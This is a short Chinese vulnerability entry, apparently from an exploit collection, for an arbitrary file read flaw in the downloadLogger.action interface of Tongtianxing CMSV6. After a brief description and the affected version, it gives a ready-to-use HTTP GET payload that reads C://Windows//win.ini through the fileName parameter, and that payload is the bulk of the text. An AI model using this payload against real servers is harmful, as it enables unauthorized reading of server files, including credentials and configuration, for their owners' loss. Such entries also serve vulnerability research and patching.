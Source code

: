 **漏洞描述：**

通天星CMSV6接口downloadLogger任意文件读取漏洞，攻击者可以通过接口读取任意服务器文件。

**影响版本：**

通天星CMSV6

**Payload：**

```jsx
GET/808gps/logger/downloadLogger.action?fileName=C://Windows//win.ini HTTP/1.1
Host:127.0.0.1
User-Agent:Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept:*/*
Connection:Keep-Alive
```

---
